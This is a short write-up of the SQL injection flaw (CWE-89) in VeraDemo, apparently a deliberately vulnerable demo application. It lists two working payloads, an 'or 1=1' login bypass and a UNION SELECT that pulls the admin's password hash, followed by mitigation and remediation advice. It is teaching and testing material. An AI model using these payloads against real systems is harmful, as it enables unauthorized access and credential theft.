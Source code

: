 CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') in VeraDemo
========================================================================================================

VeraDemo uses untrusted data in concatenation of SQL queries.
This leaves the application vulnerable to malicious users injecting
their own SQL components.

Exploit 1 - 'blind' SQLi
------------------------
1. Go to `/Account/login`
2. For Username fill in: `admin' or 1=1 --`
3. Observe that you can bypass authentication and log in as the admin user.


Exploit 2 - classic SQLi
------------------------
1. Login and go to `/Search`
2. For the search text type in: `' union select username, password, CURRENT_TIMESTAMP from users where username = 'admin'--`
3. Observe the addtional result added to the results that includes the username/hashed password.


Mitigate
--------
Use a whitelist to ensure data (like a username) only contains alphanumeric characters.

Remediate
---------
Query the data using prepared statements.

Resources
---------
* [CWE 89](https://cwe.mitre.org/data/definitions/89.html)
* [Wikipedia: SQL injection](https://en.wikipedia.org/wiki/SQL_injection)